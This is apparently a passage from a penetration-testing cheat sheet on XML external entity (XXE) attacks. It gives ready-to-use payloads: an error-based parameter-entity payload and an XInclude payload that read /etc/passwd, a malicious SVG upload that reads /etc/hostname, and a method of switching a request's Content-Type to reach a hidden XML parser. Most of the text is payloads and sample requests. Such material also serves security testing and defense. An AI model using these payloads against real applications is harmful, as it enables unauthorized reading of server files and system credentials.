 ```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
### Hidden XXE attack surface via exploiting XInclude to retrieve files
Some applications receive client-submitted data via parameter value(id=1) without xml body, embed it on the server-side into an XML document, and then parse the document. In this situation try this method. Use ```&xxe; (encode & to %26)``` to parameter value(id=&xxe;) to identify xxe via error message. Then place this payload in value to retrieve file.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### Exploiting XXE via image file upload

    Change: 
        filename="test.png" to filename="attack.svg" 
        Content-Type: image/png to Content-Type: image/svg+xml
        
Then put this payload in pixel data.
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
**Note: The ```svg``` Image format uses XML**
### Exploiting XXE via modified Content-Type
Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format. 
